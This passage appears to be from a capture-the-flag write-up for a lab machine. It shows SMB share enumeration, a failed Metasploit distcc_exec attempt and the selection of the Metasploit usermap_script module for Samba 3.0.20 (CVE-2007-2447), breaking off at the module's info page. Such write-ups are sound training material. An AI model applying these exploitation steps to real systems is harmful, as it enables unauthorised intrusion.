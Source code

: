 ```sh
  IPC$                                                NO ACCESS IPC Service (lame server (Samba 3.0.20-Debian))
  ADMIN$                                              NO ACCESS IPC Service (lame server (Samba 3.0.20-Debian))
```

Used smbmap for enumerating SMB-Shares. The "tmp" directory is read and writeable. 

## checking SMB-Vulnerability

I have checked if the SMB-Version is vulnerabaly. Used namp with the command: --script smb-vuln* 

# Enumerating Port 3632

I tried to exploit Port 3632 with an Metasploit scirpt: distcc_exec

```sh

msf5 exploit(unix/misc/distcc_exec) > run

[-] 10.10.10.3:3632 - Exploit failed: An exploitation error occurred.
[*] Exploit completed, but no session was created.

```

But it failed and i was not able to get access to the target. After some tries, i gave up at this port. 

Maybe Samba is the way in. 

# Enumerating Samba smbd 3.0.20-Debian

I pay attention to this version of Samba and tried to look if there is any vulnerabily for this. 

After some research i came accross follwing articel on ragid7: https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

There is a vulnerability in this version. You can bybass ther authentication without any username and password. 

CVE-Details: CVE-2007-2447

And there is a Metasploit-Module to exploit this vulnerability

```sh
msf5 > use exploit/multi/samba/usermap_script
```

Info Page of this module:

```sh
msf5 exploit(multi/samba/usermap_script) > info

       Name: Samba "username map script" Command Execution
     Module: exploit/multi/samba/usermap_script
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2007-05-14

Provided by:
  jduck <jduck@metasploit.com>

Available targets:
  Id  Name
```